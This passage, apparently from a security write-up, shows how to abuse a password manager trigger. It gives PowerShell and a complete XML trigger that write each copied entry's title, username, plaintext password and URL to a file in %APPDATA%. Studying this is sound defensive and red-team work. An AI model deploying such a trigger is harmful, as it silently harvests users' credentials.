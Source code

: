 ```powershell
if (!(Test-Path $env:APPDATA'\clipboard_export.txt'))
{
	New-Item -itemType File -Path $env:APPDATA -Name 'clipboard_export.txt' | Out-Null
}
Add-Content $env:APPDATA'\clipboard_export.txt' '{TITLE}:{USERNAME}:{PASSWORD}:{URL}'
```

We insert this code inside a trigger, And the resulting trigger would look like this:

```xml
<Trigger>
	<Guid>LUhj5EaVp0iip+LdLbNYwQ==</Guid>
	<Name>Clipboard Export</Name>
	<Events>
		<Event>
			<TypeGuid>P35exipUTFiVRIX78m9W3A==</TypeGuid>
			<Parameters>
				<Parameter>0</Parameter>
				<Parameter />
			</Parameters>
		</Event>
	</Events>
	<Conditions />
	<Actions>
		<Action>
			<TypeGuid>2uX4OwcwTBOe7y66y27kxw==</TypeGuid>
			<Parameters>
				<Parameter>PowerShell.exe</Parameter>
				<Parameter>-C "if (!(Test-Path $env:APPDATA'\clipboard_export.txt')) {New-Item -itemType File -Path $env:APPDATA -Name 'clipboard_export.txt' | Out-Null}; Add-Content $env:APPDATA'\clipboard_export.txt' '{TITLE}:{USERNAME}:{PASSWORD}:{URL}';"</Parameter>
				<Parameter>False</Parameter>
				<Parameter>1</Parameter>
				<Parameter />
			</Parameters>
		</Action>
	</Actions>
</Trigger>
```

We can check that everything is working as expected by copying an entry in our clipboard, then have a look at `%appdata%\clipboard_export.txt`{: .filepath}.
